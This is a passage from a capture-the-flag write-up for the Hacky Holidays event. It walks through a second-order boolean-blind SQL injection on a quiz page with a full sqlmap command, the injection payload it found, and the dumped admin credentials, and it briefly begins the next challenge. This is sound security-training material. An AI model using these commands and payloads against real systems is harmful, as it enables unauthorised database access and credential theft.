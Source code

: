 	
```
sqlmap -u 'https://hackyholidays.h1ctf.com/evil-quiz' \
--data 'name=NOME' \
--second-url 'https://hackyholidays.h1ctf.com/evil-quiz/score' \
--random-agent --not-string 'There is 0 other player' \
--technique=B --level=3 --risk=3 \
--cookie 'session=***'  -D quiz -T admin --dump
```

Key here are a couple of things to note here:

- `--second-url` parameters tells sqlmap the page to check our injection results in a different page
- we explicitly give a `--not-string` to look for false result
- `--risk 3` is necessary to let sqlmap try OR based blind injection
- db and table were identified by previious runs of sqlmap, what you have above is the final command
- you cannot specify more than 1 thread because of second order page request (otherwhise one thread will interfere with other threads' result)

Seeing this message told us that we were on the right path

```
...
[17:19:23] [INFO] POST parameter 'name' appears to be 'OR boolean-based blind - WHERE or HAVING clause' injectable 
...
Parameter: name (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause
    Payload: name=-3268' OR 6136=6136-- ibKa
    Vector: OR [INFERENCE]
```

And finally, with some patience we get the info we were looking for:

```
Database: quiz
Table: admin
[1 entry]
+----+----------+-------------------+
| id | username | password          |
+----+----------+-------------------+
| 1  | admin    | S3creT_p4ssw0rd-$ |
+----+----------+-------------------+
```

With admin credentials we immediately get the flag:

	flag{6e8a2df4-5b14-400f-a85a-08a260b59135}
	
# flag10 /signup-manager

Simple fuzzing reveals nothing very useful apart the existence of and `admin.php` page which is not directly accessibile via HTTP.
